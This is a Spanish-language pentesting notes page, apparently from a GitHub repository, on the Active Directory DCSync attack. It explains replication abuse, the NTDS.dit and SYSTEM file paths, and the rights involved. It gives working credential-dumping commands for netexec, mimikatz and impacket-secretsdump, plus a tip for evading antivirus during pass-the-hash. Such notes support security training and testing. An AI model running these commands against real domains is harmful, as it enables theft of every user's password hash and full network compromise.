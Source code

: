 # DCSync

Tags: #AD #DCSync #Persistencia #Windows 

DCSync es una técnica de post-explotación en entornos Windows, específicamente en redes que operan con Active Directory (AD). Este método permite a un atacante con privilegios elevados imitar las funciones de un Controlador de Dominio (DC) para obtener información sensible de otros DCs. Entre los datos comprometidos se incluyen hashes de contraseñas de usuarios, claves de cifrado de Kerberos y otros elementos protegidos que normalmente solo están disponibles para los Controladores de Dominio.

```bash 
# Cómo funciona DCSync
1. Privilegios Necesarios: Para ejecutar un ataque DCSync, el atacante necesita tener privilegios de nivel alto en el dominio, típicamente como un usuario con el rol de "Domain Admin" o similar.
2. Mimikatz y DCSync: Una de las herramientas más populares que implementa este ataque es Mimikatz. Mimikatz tiene un módulo llamado 'lsadump' que puede utilizarse para realizar un ataque DCSync.
3. Replicación de Directorio: El ataque se basa en la funcionalidad legítima de replicación de directorio entre Controladores de Dominio. El protocolo de replicación de AD, MS-DRSR (Microsoft Directory Replication Service (DRS) Remote Protocol), permite a un DC obtener actualizaciones de datos de otro DC. Un atacante puede utilizar este protocolo para simular una solicitud de replicación.
4. Solicitud de Datos de Cuentas: Un atacante puede solicitar los datos de ciertas cuentas específicas, o incluso de todas las cuentas en el dominio, lo que incluye los hashes de las contraseñas de NTLM y los tickets de Kerberos (TGTs).
5. Extracción de Información Sensible: El ataque permite que el atacante extraiga información que puede ser utilizada para aumentar su nivel de acceso o para comprometer aún más la red, realizando ataques de movimiento lateral o elevación de privilegios.
```

```powershell 
## Extracción de Credenciales del Dominio de Active Directory

Cuando se realiza una tarea tan crítica como la extracción de credenciales de un dominio de Active Directory, es fundamental comprender la importancia y la sensibilidad de los archivos involucrados. El archivo NTDS.dit es esencialmente el corazón de AD, ya que contiene todas las cuentas de usuario, contraseñas hash y otros datos críticos del dominio. Por lo tanto, es un objetivo primordial en las actividades de post-explotación y debe ser manejado con extrema precaución y bajo estrictas medidas de seguridad.

El archivo de sistema, comúnmente conocido como el hive SYSTEM, contiene configuraciones clave del sistema y es necesario para descifrar los hashes de contraseñas almacenados en NTDS.dit.

Normalmente, puedes encontrar el archivo ntds.dit en dos ubicaciones:

❯ 'systemroot\NTDS\ntds.dit'
❯ 'systemroot\System32\ntds.dit'
    
Y la ruta del SYSTEM en:

❯ 'C:\Windows\System32\SYSTEM'

Es común que estos archivos sean el objetivo principal de herramientas de extracción de credenciales, como el ataque DCSync que emula el comportamiento de un controlador de dominio solicitando información de usuario de otros controladores de dominio sin necesidad de ejecutar código en el controlador de dominio objetivo.
```

```bash 
# Estos privilegios los tienen los usuarios 'Domain Admin' 

1. DS-Replication-Get-Changes
2. Replicating Directory Changes All
3. Replicating Directory Changes In Filtered Set 
```

## Utilizando Netexec

```powershell
# Comando para usuarios con altos privilegios 

❯ nxc smb IP -u "admin" -p "Password@1" -d "domain1.corp" --ntds   # Nos muestra loas hashes de los usuarios, por lo que se puede hacer 'Pass-The-Hash'
```

## Utilizando Mimikatz

```powershell
❯ .\mimikatz.exe 
	# lsadump::dcsync /domain:domain1.corp /user:krbtgt    # Obtener el hash NTLM
```

```powershell
# Para exfiltrar todos los usuarios del dominio:

❯ .\mimikatz.exe
	# lsadump::dcsync /domain:domain1.corp /all /csv
```

## Utilizando Impacket-secretsdump

```powershell
❯ impacket-secretsdump domain1.corp/user@IP-DC 
❯ impacket-secretsdump domain1.corp/user:passwd@IP_DC
❯ impacket-secretsdump -debug -dc-ip IP_DC admin@domain1.corp -hashes :64fbae31cc352fc26af97cbdef151e03 
	
	# debug = Obtener mas info 
	# dc-ip = Dirección IP del DC
	# upn 'UserPrincipalName' = Nombre del usuario y DC
	# hashes = Hash ':NT' del usuario 

Notas: 
	1. Este ataque funciona si el usuario del cual tenemos las credenciales tiene los derechos de 'GetChanges y GetChangesAll' sobre el usuario 'Administrator'  
	2. Es mejor hacer un 'Pass-The-Hash' con el 'aes256' que con el 'rc4' ya que los AV los detectan más fácil 
```